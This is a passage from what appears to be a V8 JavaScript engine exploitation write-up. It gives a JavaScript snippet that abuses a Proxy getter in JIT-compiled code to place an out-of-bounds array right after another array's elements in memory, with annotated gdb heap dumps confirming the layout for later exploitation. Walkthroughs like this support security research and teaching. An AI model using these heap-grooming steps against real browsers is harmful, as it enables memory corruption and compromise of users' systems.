 ```console
0x2833000dedec|+0x0028|+005: 0x9999999a000007b1  # @ 0xdedec is `HeapNumber 1.1`, map = 0x7b1, 0x3fb999999999999a = 1.1
0x2833000dedf4|+0x0030|+006: 0x001843c93fb99999
0x2833000dedfc|+0x0038|+007: 0x000006cd000006cd
0x2833000dee04|+0x0040|+008: 0x0022da110104c001
0x2833000dee0c|+0x0048|+009: 0x0022da81000de0c9
0x2833000dee14|+0x0050|+010: 0x00000605000006e9
```

### After [4] & Before [5]

If we continue here, we notice that `oob_arr` object is not allocated immediately
after the end of `a.elements`. This may be caused by us breaking two times
previously. Thus, we need to remove the previous two `%SystemBreak()` and re-run it.

```js
let p = new Proxy(Object, {
    get: function() {
        if (jitted) {
            a[0] = {};
            oob_arr = Array(1);
            oob_arr[0] = 1.1;
            eval("%DebugPrint(a)")
            eval("%DebugPrint(oob_arr)")
            eval("%SystemBreak()")
        }
        return Object.prototype;
    }
})
```

From the output below, we could see that our `oob_arr` object is just after
`a.elements` which is ideal for our exploitation later on.

```console
$ gdb -ex 'run' --args './d8 --allow-natives-syntax --shell ./pwn.js'
0x154a000dbb81 <JSArray[7]>
0x154a000dbd79 <JSArray[1]>
gef> tele 0x154a000dbb81-0x1  # &a
0x154a000dbb80|+0x0000|+000: 0x000006cd0018f071
0x154a000dbb88|+0x0008|+001: 0x0000000e000dbd45  # a.elements = 0xdbd45
gef> tele 0x154a000dbd45-0x1  # &a.elements
0x154a000dbd44|+0x0000|+000: 0x0000001000000565  # a.elements.map = 0x565, a.elements.length = 0x10 >> 1 = 0x8
0x154a000dbd4c|+0x0008|+001: 0x000dbd6d000dbd29  # a[0] = 0xdbd29 (pointer to {}), a[1] = 0xdbd6d (pointer to HeapNumber 1.1)
0x154a000dbd54|+0x0010|+002: 0x000006e9000006e9  # a[2] = the_hole_value, ...
0x154a000dbd5c|+0x0018|+003: 0x000006e9000006e9
0x154a000dbd64|+0x0020|+004: 0x000006e9000006e9
0x154a000dbd6c|+0x0028|+005: 0x9999999a000007b1  # HeapNumber 1.1
0x154a000dbd74|+0x0030|+006: 0x0018eff13fb99999  # oob_arr.map = 0x18eff1 (@ 0x154a000dbd78)
0x154a000dbd7c|+0x0038|+007: 0x000dbd95000006cd  # oob_arr.properties = 0x6cd, oob_arr.elements = 0xdbd95
0x154a000dbd84|+0x0040|+008: 0x0000056500000002  # oob_arr.elements.length = 0x2 >> 1 = 0x1
0x154a000dbd8c|+0x0048|+009: 0x000006e900000002
0x154a000dbd94|+0x0050|+010: 0x0000000200000851  # oob_arr.elements.map = 0x851, oob_arr.elements.length = 0x2 >> 1 = 0x1
0x154a000dbd9c|+0x0058|+011: 0x3ff199999999999a  # hexadecimal representation for `1.1`
0x154a000dbda4|+0x0060|+012: 0x0000000200000851
0x154a000dbdac|+0x0068|+013: 0x4000cccccccccccd
0x154a000dbdb4|+0x0070|+014: 0x000006cd0018efb1
0x154a000dbdbc|+0x0078|+015: 0x00000002000dbdcd
```
